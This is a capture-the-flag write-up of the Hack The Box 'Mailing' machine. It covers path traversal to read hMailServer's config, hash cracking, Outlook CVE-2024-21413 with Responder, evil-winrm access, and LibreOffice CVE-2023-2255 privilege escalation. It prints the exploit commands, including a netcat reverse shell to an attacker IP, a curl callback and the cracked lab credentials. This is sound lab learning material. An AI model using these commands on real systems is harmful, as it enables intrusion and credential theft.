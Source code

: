 ```yaml
---
date: 2025-02-03
categories: [CTF, HTB]
title: "HTB - Mailing"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'windows']

description: "Mailing - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Mailing

NMAP

![image1](../resources/5bca4149e3934456a5b91fa2019e67bc.png)

Add mailing.htb to /etc/hosts

- Open Burp and capture the request from Download Instructions

![image2](../resources/d1af18942afe4d62876e16ad7234fdd9.png)

- Try and get to the hosts file:

```bash
C:\Windows\System32\drivers\etc\hosts

```
**We exclude C:\\ when doing traversal:**


![image3](../resources/51d5bd364f774b6c85645caf1df37695.png)


![image4](../resources/0ad55b0725f8446f80ba0474fb2a2927.png)

- We have a LFI vulnerability

- We know that hMailServer is running and the config file for it is in:

```bash
C:\Program Files\hMailServer\Bin\hMailServer.ini

```
But that didn't work:


![image5](../resources/8274244457eb4bc58395c6bdc43e246b.png)

- We can try and do:

```bash
C:\Program Files(x86)\hMailServer\Bin\hMailServer.ini

```
And we get the config file back:


![image6](../resources/c1aba331c07043688a598f53d160e999.png)

We get hashes:

AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7

\[Database\]


Password=0a9f8ad8bf896b501dde74f08efd7e4c


![image7](../resources/34bf7a31fc4a47baa6194267a2136167.png)

- Crack with hashcat:

```bash
hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

```

![image8](../resources/9a73545044e64de1886f739ab6a91a3d.png)

**Administrator - homenetworkingadministrator**

- Not logon creds:

![image9](../resources/3fc853d2ea2f48a79613ac3646126f62.png)

- In order to decrypt the database password - we need to use a program specifically made for it:
<https://github.com/GitMirar/hMailDatabasePasswordDecrypter>


![image10](../resources/4b69a12112c249af97eb0d8bc9b14f29.png)

**6FC6F69152AD**

- Tried logging in through SMTP - But it didn't work:

```bash
telnet mailing.htb 25

EHLO client.net

AUTH LOGIN

<username>

<password>

```

- Log in through POP3 - worked but nothing there:

```bash
telnet mailing.htb 110

USER Administrator@mailing.htb

PASS homenetworkingadministrator

```
- If we search for Outlook vulnerabilities we come across this:
<https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability>

- Set up Responder:

```bash
Responder -I tun0
```

- And send the following crafted payload (We get the recipient name from the homepage):

```bash
python3 CVE-2024-21413.py --server "mailing.htb" --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url '\\10.10.14.15\meeting' --subject "Important"

```

![image11](../resources/664b525f935743a2a8cb850225969bed.png)

- And we get a hit:

![image12](../resources/eb85a293e71c4aa790d69ded0b1cd183.png)

- Crack with hashcat:

```bash
hashcat -a 0 -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

```

![image13](../resources/8839ade021d6402f9633465edad34d9b.png)

**maya : m4y4ngs4ri**

- The creds are good:

![image14](../resources/a1ab6d1146e3422993d26f37ad44a8e6.png)

- And we can evil-winrm in:

![image15](../resources/00726ea407744f3a9471303b1200505d.png)

```bash
evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri

```

![image16](../resources/440f58236c5d4196866c9c51cc3eda93.png)

```bash
cat user.txt

```
- Enumerating - we see a user localadmin:

![image17](../resources/543506c03d7a45618342b7b3ce72c4b5.png)

- Looking at scheduled tasks:

```bash
schtasks /query /fo LIST /v | select-string -pattern "localadmin" -context 9,13

```

![image18](../resources/917123aa2efc48abb8d1536a123d19ac.png)

We see an office script running under localadmin

- We can also see that LibreOffice is installed:

![image19](../resources/205b31e287e1480d9ce4d4744a189648.png)

- Get LibreOffice version:

```powershell
$libreofficeInstallPath = "C:\Program Files\LibreOffice"
$libreofficeVersion = (Get-Item "$libreofficeInstallPath\program\soffice.bin").VersionInfo.FileVersion
Write-Host "LibreOffice Version: $libreofficeVersion"

```

![image20](../resources/ff35adbdc84e45cbb48a93b1327fb5d7.png)

- **CVE-2023-2255:**

![image21](../resources/ced8b388e3ec49ea905a09a30b580a56.png)

- Test the exploit:
<https://github.com/elweth-sec/CVE-2023-2255/blob/main/CVE-2023-2255.py>

```bash
python3 CVE-2023-2255.py --cmd "curl <http://10.10.14.15:8000/a>" --output form.odt

```
- Upload the form.odt to C:\Important Documents

![image22](../resources/990308e37f5c4afe8e268b30cc25d00b.png)

- Set up python http server to test:

![image23](../resources/1d34f984e26746dc8c4e10bce2faa711.png)

- Uploading nc and trying to get a reverse shell didn't work because of AV:

```bash
python3 CVE-2023-2255.py --cmd "C:\Important Documents\nc.exe 10.10.14.15 8000 -e cmd.exe" --output form.odt

```
- So instead added maya to admin group:

```bash
python3 CVE-2023-2255.py --cmd "net localgroup Administradores /add maya" --output form.odt

```

![image24](../resources/7526f6a5f87c4deda29fe2977ae3a478.png)

- Close the current evil-winrm session and start a new session (otherwise the new group won't take effect)

```bash
cat root.txt

```
- We can also dump the SAM hashes now